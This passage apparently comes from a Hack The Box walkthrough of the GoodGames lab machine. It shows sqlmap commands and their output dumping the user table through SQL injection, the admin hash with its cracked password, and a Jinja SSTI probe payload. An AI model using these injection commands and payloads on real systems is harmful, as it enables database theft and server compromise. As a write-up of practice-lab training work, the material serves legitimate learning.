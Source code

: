 Found 2 databases: information_schema and main.



```
┌──(root💀kali)-[~/htb/machines/goodgames]
└─# sqlmap -u 'http://goodgames.htb/login' --data 'email=a&password=b' --batch -D main --tables

[14:14:35] [INFO] retrieved: blog
[14:15:12] [INFO] retrieved: blog_comments
[14:16:45] [INFO] retrieved: user
Database: main
[3 tables]
+---------------+
| user          |
| blog          |
| blog_comments |
+---------------+

```

After checking tables under main db, found 3 tables including user table. Dumping user table will gives username and password hash.

```
┌──(root💀kali)-[~/htb/machines/goodgames]
└─# sqlmap -u 'http://goodgames.htb/login' --data 'email=a&password=b' --batch -D main -T user --dump

Database: main
Table: user
[1 entry]
+----+-------+---------------------+----------------------------------+
| id | name  | email               | password                         |
+----+-------+---------------------+----------------------------------+
| 1  | admin | admin@goodgames.htb | 2b22337f218b2d82dfc3b6f77e7cb8ec |
+----+-------+---------------------+----------------------------------+

```

So cracking the password hash using crackstation.net gives *superadministrator* as password.

Found subdomain *internal-administration.goodgames.htb* and added it to /etc/hosts. Its login page  and we can login using admin credentials previously found. 

Under settings page, we can edit user profile information. As it is using flask, it is vulnerable to SSTI template injection.

<img src="../htb_assets/images/goodgames/2022-07-30-15-23-16-image.png)

We can  see here that after injecting 7*7, it is reflected back after calculation. After searching for SSTI payloads, found a payload to list all objects in there.

```
{{''.__class__.mro()[1].__subclasses__() }}
```
